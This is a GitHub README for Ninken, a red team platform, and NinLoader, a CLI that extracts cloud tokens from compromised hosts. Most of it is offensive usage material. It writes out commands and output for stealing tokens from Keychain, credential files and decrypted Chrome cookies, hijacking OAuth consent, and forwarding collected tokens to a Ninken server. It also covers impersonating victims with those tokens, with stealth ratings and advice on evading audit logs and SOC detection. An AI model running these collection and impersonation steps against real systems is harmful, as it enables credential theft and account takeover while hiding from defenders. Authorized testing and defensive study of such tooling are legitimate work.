


<p align="center">
  
</p>

<p align="center">
  
  
  
  
  
</p>

<p align="center">
  <b>Red Team Cloud Operations Platform</b><br>
  <i>Track. Hunt. Retrieve.</i>
</p>

---

## What is Ninken?

Ninken (忍犬 — ninja dog) is a local-first red team platform for operating, auditing, and collecting across cloud services. Extract credentials from compromised hosts, import them into Ninken, and get instant access to email, files, calendars, directories, and security configurations — all from your browser.

## Audit & Impersonate

Drop a stolen token and instantly see the world through the victim's eyes:

- **Permission enumeration** — map every user, group, role, app, delegation, and policy the token can reach
- **Operate as the user** — read their email, browse their files, view their calendar, list their repos — all read-only, all through the API
- **FOCI token pivoting** — exchange a Microsoft refresh token across Teams, Office, Outlook, OneDrive to discover hidden scopes
- **Resource probing** — test if the credential can reach Azure Resource Manager, Key Vault, Storage, DevOps
- **Cross-tenant discovery** — enumerate federated tenants and trust relationships
- **Privilege escalation paths** — AWS IAM privesc analysis, conditional access policy gaps

## Secret Scanning

Hunt for credentials, API keys, and sensitive data across every service in a single query:

- **37+ built-in queries** — passwords in email/drive, private keys, .env files, database connection strings, AWS AKIA keys, bearer tokens, SSH keys
- **Multi-service search** — one query searches Gmail + Drive + OneDrive + Outlook simultaneously
- **Severity-rated** — Critical / High / Medium / Low with red team context
- **Category filters** — Credentials, API Keys, Infrastructure, PII, Internal Access, Security, Reconnaissance, Exfiltration Indicators

Available under **Audit → Query** for each provider.

## NinLoader — Token Extraction CLI

NinLoader is a cross-platform credential collector that discovers and extracts cloud service tokens from compromised hosts. It ships as both Python and PowerShell — zero external dependencies for core features.

### Quick Start

```bash
cd ninloader
python3 ninloader.py discover        # Scan for token sources
python3 ninloader.py collect          # Extract all available tokens
```

### Discover token sources

```bash
$ ninloader discover

Service      Source               Stealth  Account                        Path
----------------------------------------------------------------------------------------------------
github       gh_cli               5        jdoe@github.com                ~/.config/gh/hosts.yml (token in keychain)
google       adc                  5        892451037612-k9m2p8r...        ~/.config/gcloud/application_default_credentials.json
google       gcloud               5        admin@acme-corp.io             ~/.config/gcloud/credentials.db
google       gws_cli              3        client_id=441738160552-...     ~/.config/gws/client_secret.json (GWS Workspace scopes)
microsoft    foci_device_code     3                                        (FOCI device code — one token for Teams/Office/Outlook/OneDrive)
microsoft    browser_hijack       4        active Chrome session          Chrome profile copy + CDP auto-click OAuth
slack        browser_cookies      5        chrome:Default                 Chrome cookies (d_cookie, Win/Linux)
aws          credentials          5                                        ~/.aws/credentials
```

### Collect tokens

```bash
# Collect all Google tokens (file-based, stealth 5)
$ ninloader collect --service google
Collected 2 token(s).

# Collect GitHub PAT from macOS Keychain (silent, no prompt)
$ ninloader collect --service github --source gh_cli
Collected 1 token(s).
[{"token":{"platform":"github","access_token":"gho_xK9mP2vL..."}}]

# Microsoft FOCI — one token pivots across Teams/Office/Outlook/OneDrive
$ ninloader collect --service microsoft --source foci_device_code
  Visit:  https://login.microsoft.com/device
  Code:   ET55R7XTE

# GWS OAuth hijack — steal Workspace access using gws-cli credentials
$ ninloader collect --service google --source gws_cli
[INFO] Opening browser for OAuth consent...
[INFO] Auth code captured! Exchanging for tokens...
[INFO] SUCCESS — GWS token for admin@acme-corp.io

# Save to file (0o600 permissions)
$ ninloader collect --output file --path ./tokens

# Send directly to Ninken
$ ninloader collect --output ninken --ninken-url http://localhost:4000
Sent github/gh_cli [200]
  → Open in browser: http://localhost:4000/?import=891fb8e6677a
```

### Supported Collectors

| Service | Source | Platforms | Stealth | Notes |
|---------|--------|-----------|---------|-------|
| Google | `adc` | All | 5 | Application Default Credentials |
| Google | `gcloud` | All | 5 | gcloud SQLite credentials.db (GCP scopes only) |
| Google | `gws_cli` | All | 3 | OAuth via stolen client_secret.json (Workspace scopes) |
| Google | `browser_cookies` | Win/Linux | 5 | Chrome cookie decrypt (session hijack) |
| Google | `browser_hijack` | All | 4 | Chrome profile + CDP (experimental) |
| GitHub | `gh_cli` | All | 5 | Keychain (macOS), Credential Manager (Win), YAML/pass (Linux) |
| GitHub | `git_credentials` | All | 5 | ~/.git-credentials |
| Microsoft | `foci_device_code` | All | 3 | FOCI device code — zero deps, one token for all M365 apps |
| Microsoft | `browser_hijack` | All | 4 | Chrome profile + CDP auto-click OAuth |
| Microsoft | `browser_cookies` | Win/Linux | 5 | Chrome cookie decrypt (session hijack) |
| Microsoft | `teams_desktop` | All | 5 | Teams LevelDB cache |
| Slack | `desktop` | All | 5 | Slack LevelDB xoxc tokens |
| Slack | `browser_cookies` | Win/Linux | 5 | Chrome d_cookie decrypt |
| AWS | `credentials` | All | 5 | ~/.aws/credentials |
| AWS | `env` | All | 5 | Environment variables |
| AWS | `sso_cache` | All | 5 | AWS SSO cache |

### OPSEC Notes

| Operation | macOS | Windows | Linux |
|-----------|-------|---------|-------|
| File reads (ADC, gcloud, gh YAML, AWS) | Silent | Silent | Silent |
| GitHub Keychain (gh:github.com) | **Silent** | Silent | Silent |
| Chrome cookie decrypt | **PROMPT** | Silent (DPAPI) | Silent (peanuts) |
| GWS OAuth browser tab | Tab flash | Tab flash | Tab flash |
| FOCI device code | Silent (network) | Silent (network) | Silent (network) |

## Supported Services

| Provider | Operate | Audit | Collect | Status |
|----------|---------|-------|---------|--------|
| Google Workspace | Gmail, Drive, Calendar, Chat, Buckets | Users, Groups, Roles, Apps, Delegation, Policies, Query | Email, files, attachments | Active |
| Microsoft 365 | Outlook, OneDrive, Teams, Entra ID | Users, Groups, Roles, Apps, Sign-ins, FOCI Pivot, Resource Pivot | Email, files | Active |
| GitHub | Repos, Orgs, Gists, Actions | Members, Branch Protections, Webhooks, Deploy Keys, Secrets | Repo data | Active |
| GitLab | Projects, Groups, Pipelines, Snippets | Members, Deploy Tokens, Runners, Variables, Webhooks | Project data | Active |
| Slack | Channels, Users, Files | — | Messages, files | Active |
| AWS | IAM, EC2, S3, Lambda, CloudTrail, Secrets Manager | IAM Policies, Access Keys, Privesc, Cross-Account, Public S3 | — | Test |

## OPSEC Guidance

Every action in Ninken is annotated with detection risk:

- **Stealth Calculator** — toggle operation characteristics (Read / Write / Delete / Admin API / Bulk / Sensitive Data) and get an estimated detection level: Ghost (<5%) → Silent (5-15%) → Cautious (15-40%) → Loud (40-75%) → Burned (>75%)
- **Per-operation risk** — each API call mapped to a detection tier with guidance on rate-limiting, timing, and log footprint
- **SOC visibility warnings** — pages that generate audit log entries show explicit banners
- **Token OPSEC scores** — browser session tokens (low OPSEC) vs API tokens (high OPSEC)
- **NinLoader Collection OPSEC** — Keychain prompt matrix, platform-specific detection surface, stealth scores per collector

Available under **OPSEC** mode and **Studio → Collection**.

## Modes

- **Operate** — Browse and interact with cloud service data (read-only)
- **Audit** — Enumerate permissions, configurations, and security posture
- **Collect** — Queue and download evidence (email, files, attachments)
- **Studio** — Token analyzer, FOCI converter, scope calculator, collection reference
- **OPSEC** — Stealth calculator and detection risk scoring for API operations

## Install

### Docker (recommended)

```bash
git clone https://github.com/iamveene/ninken.git
cd ninken
./install.sh
```

The installer detects Docker, generates `.env`, builds and starts the container:

```
[ninken] Docker 27.x.x detected
[ninken] Docker Compose v2.x.x detected
[ninken] .env created with auto-generated NINKEN_COOKIE_SECRET
[ninken] Building Ninken container...
[ninken] Starting Ninken...
[ninken] Ninken is healthy!
════════════════════════════════════════════════════
  Ninken is running at http://localhost:4000
════════════════════════════════════════════════════
```

Options: `./install.sh --port 8080 --anthropic-key sk-... --model claude-sonnet-4-20250514`

### Direct (development)

```bash
git clone https://github.com/iamveene/ninken.git
cd ninken
npm install
npm run dev
# Open http://localhost:4000
```

## Architecture

```
src/
├── app/
│   ├── (google)/          # Google Workspace (23 pages)
│   ├── (microsoft)/       # Microsoft 365 (18 pages)
│   ├── (github)/          # GitHub (16 pages)
│   ├── (gitlab)/          # GitLab (14 pages)
│   ├── (slack)/           # Slack (4 pages)
│   ├── (aws)/             # AWS (14 pages)
│   ├── (studio)/          # Studio tools (6 pages)
│   ├── api/               # 210 API routes
│   └── page.tsx           # Landing / credential import
├── components/            # UI components
├── hooks/                 # React hooks
└── lib/
    ├── providers/         # Service provider abstractions (6 providers)
    ├── token-store.ts     # Encrypted IndexedDB storage
    └── session-store.ts   # Server-side credential sessions

ninloader/
├── ninloader.py           # Python CLI entry point
├── NinLoader.ps1          # PowerShell version (Windows)
└── ninloader/
    ├── collectors/        # 17 service-specific extractors
    │   ├── aws/           # credentials, env, sso_cache
    │   ├── google/        # adc, gcloud, gws_cli, browser_hijack, browser_cookies
    │   ├── github/        # gh_cli, git_credentials
    │   ├── microsoft/     # foci_device_code, browser_hijack, browser_cookies, teams_desktop
    │   └── slack/         # desktop, browser_cookies
    └── core/
        ├── cdp.py         # Chrome DevTools Protocol client
        ├── chromium_decrypt.py  # Cross-platform cookie decryption
        ├── output.py      # stdout/file/clipboard/ninken handlers
        └── validator.py   # Token validation
```

## Adding a Provider

1. Implement the `ServiceProvider` interface in `src/lib/providers/`
2. Register it in `src/lib/providers/index.ts`
3. Add helper function in `src/app/api/_helpers.ts`
4. Create route group under `src/app/(provider-name)/`

## Usage

<p align="center">
  
</p>

1. **Import credentials** — drag-and-drop, paste JSON, or use NinLoader CLI to extract tokens from a compromised host
2. **Operate** — browse email, files, calendars, repos, and channels as the target user
3. **Secret Search** — scan across all services for exposed credentials, API keys, and private keys using 41+ detection patterns
4. **Audit** — enumerate users, groups, roles, permissions, delegations, and security configurations
5. **Query** — run 37+ pre-built intelligence queries across Gmail, Drive, OneDrive, and Outlook simultaneously
6. **OPSEC** — assess detection risk before executing with the stealth calculator and 56-operation catalog
7. **Collect** — queue and download evidence (emails, attachments, files) for offline analysis
8. **AI Partner** — ask natural language questions about the target environment with Live/Collection search modes
9. **Studio** — analyze tokens, calculate scopes, convert FOCI tokens, download NinLoader

## Security

Ninken is a red team tool designed for authorized security testing and research. Credentials are stored locally in encrypted IndexedDB and are never transmitted to external servers. All API calls are made directly from the Ninken server to the target service.

---

<p align="center">
  
</p>
